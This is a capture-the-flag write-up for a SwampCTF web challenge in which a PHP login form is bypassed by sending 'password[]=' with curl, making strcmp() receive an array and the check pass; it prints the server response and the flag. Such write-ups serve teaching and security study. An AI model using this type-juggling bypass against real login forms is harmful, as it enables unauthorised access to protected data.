 # Data Vault - Web

### [~$ cd ..](../)

>Andrew, a data courier and PHP diehard, has secret data that he can't have falling into the ZaibatsuCorp's hands. Fortunately, we've established an online datalink with his wetware.
>
>We've exposed the module's access interface here: chal1.swampctf.com:1233
>
>Can you bypass his CraniumStorage security module before he wakes up?
>
>-= Created by andrewjkerr =-

We were facing a web page containing only a simple form.

![form](form.png)

Source code of the page:

```html
<html>
<head>
    <!-- You won't find any help here :) -->
    <title>Andrew's Secret Image Storage!</title>
</head>
<body>
    <h1>Andrew's Secret Image Storage!</h1>
    <p>Hello visitor! If I, Andrew, have given the password to view my image, please enter it below. If not, please kindly leave this site. :)</p>
    <br />
    <form action="/" method="POST">
        <label>What's the password?</label>
        <input type="text" name="password" />
        <input type="submit" value="Submit" />
    </form>

    </body>
</html>
```

No `robots.txt` nor obvious files, no useful headers, not a trivial password. The solution (or one possible solution, at least) was actually to bypass the password checking by sending an array instead of a single password:

```bash
~$ curl --data "password[]=" http://chal1.swampctf.com:1233/
```

The response came back with the flag:

```html
<html>
<head>
    <!-- You won't find any help here :) -->
    <title>Andrew's Secret Image Storage!</title>
</head>
<body>
    <h1>Andrew's Secret Image Storage!</h1>
    <p>Hello visitor! If I, Andrew, have given the password to view my image, please enter it below. If not, please kindly leave this site. :)</p>
    <br />
    <form action="/" method="POST">
        <label>What's the password?</label>
        <input type="text" name="password" />
        <input type="submit" value="Submit" />
    </form>

    <br />
<b>Warning</b>:  strcmp() expects parameter 2 to be string, array given in <b>/var/www/html/index.php</b> on line <b>36</b><br />
<p>You got it! Here's your image:</p><img src='imgs/c3e04c47227f3aaffed3ae156f8de2f8ccaa5fb1a40e7b59f6a41dbfadb65a86.png' /><p>And here's your flag: flag{wHy_d03S-php_d0-T41S}</p></body>
</html>
```

FLAG: **flag{wHy_d03S-php_d0-T41S}**

and the secret image:

![hidden](c3e04c47227f3aaffed3ae156f8de2f8ccaa5fb1a40e7b59f6a41dbfadb65a86.png)

EOF
